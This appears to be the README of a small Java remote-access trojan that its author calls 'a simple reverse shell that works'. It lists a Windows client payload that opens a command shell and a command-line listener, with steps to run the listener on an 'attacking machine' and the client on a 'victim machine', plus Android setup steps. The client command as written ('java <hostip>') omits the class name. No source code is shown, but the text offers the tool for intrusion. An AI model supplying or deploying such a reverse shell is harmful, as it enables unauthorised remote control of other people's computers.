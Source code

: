 ########################
~~~~~~~~~~~~~~~~~~~~~~~~~~
SimpleJAVARAT-Listener-Payload 
~~~~~~~~~~~~~~~~~~~~~~~~~~
A simple reverse shell that works. 

@
Or I. Benet//
IT Specialist//
M.IS UoP - Cyber Security - Epsilon Pi Tau//
B.S. Troy - Chemistry - Mathmatics//
@
####################

~~~Included Files~~~
  RATCLIENT.java - Windows Payload that opens up a command-shell
  RATCLIENT.class - compiled

  RATSERVER.java - Simple CLI Listener
  RATSERVER.class - compiled

  ~~~~~~~~~~~~~~~~
  
Regular USAGE:
  @@@@
  1. Start the RATSERVER ON ATTACKING MACHINE (command: java RATSERVER)
  @@@@
  2. Start the RATCLIENT on VICTIM MACHINE (command: java <hostip>)
  @@@@
.............................................................................................................................

Android USAGE:
@@@@
1. Create new Android Project
@@@@
2. Create a Relative layout with scrollView , editText, and button.
@@@@
3. Copy classes
@@@@
4. Start the Application on an Android Device or VM
@@@@
5. Start the RATCLIENT on VICTIM MACHINE
